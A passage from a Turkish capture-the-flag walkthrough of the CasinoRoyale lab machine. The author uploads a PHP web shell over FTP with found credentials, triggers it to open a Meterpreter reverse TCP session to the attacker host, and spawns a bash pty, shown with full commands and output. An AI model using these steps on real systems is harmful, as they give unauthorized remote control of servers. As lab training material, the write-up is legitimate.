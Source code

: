  ```sh

[*] Started reverse TCP handler on 192.168.171.136:1822
```
Şimdi ftp ile shell dosyasını ekleyelim.

```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# ftp 192.168.171.141 
Connected to 192.168.171.141.
220 Customer Access Level: ULTRA
Name (192.168.171.141:root): ftpUserULTRA
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php5 
local: shell.php5 remote: shell.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
1116 bytes sent in 0.01 secs (150.1162 kB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Desktop
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Documents
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Downloads
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Music
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Pictures
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Public
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Templates
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Videos
-rw-r--r--    1 0        0             191 Feb 22 19:42 battle2root.html
-rwxr-xr-x    1 0        0              76 Feb 20 12:38 hello_world.pl
-rwxr-xr-x    1 1002     1002         1131 Feb 21 00:00 main.php
-rw-------    1 1002     1002         1116 May 18 14:33 shell.php5
226 Directory send OK.
ftp> chmod 777 shell.php5 
200 SITE CHMOD command ok.
```

Evet shell dosyamızıda başarı ile yükledik. Şimde reverse almamız gerekiyor. XML ile aldığımız cevapta ftp kullanıcısı ile alakalı şu bilgiyi almıştık: `ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash` buradan klasörünü görebiliyoruz. Tarayıcıya `http://192.168.171.141/ultra-access-view/shell.php5` adresini yazdığımızda...
```sh
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.171.136
lhost => 192.168.171.136
msf5 exploit(multi/handler) > set lport 1822
lport => 1822
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.171.136:1822 
[*] Sending stage (38247 bytes) to 192.168.171.141
[*] Meterpreter session 1 opened (192.168.171.136:1822 -> 192.168.171.141:36062) at 2019-05-18 16:20:51 -0400

meterpreter > 
```
İçerdeyiz! Meterpreterden shell'e geçtiğimizde daha iyi bir console için `python -c "import pty; pty.spawn('/bin/bash')"` komutunu uyguladım.
```sh
```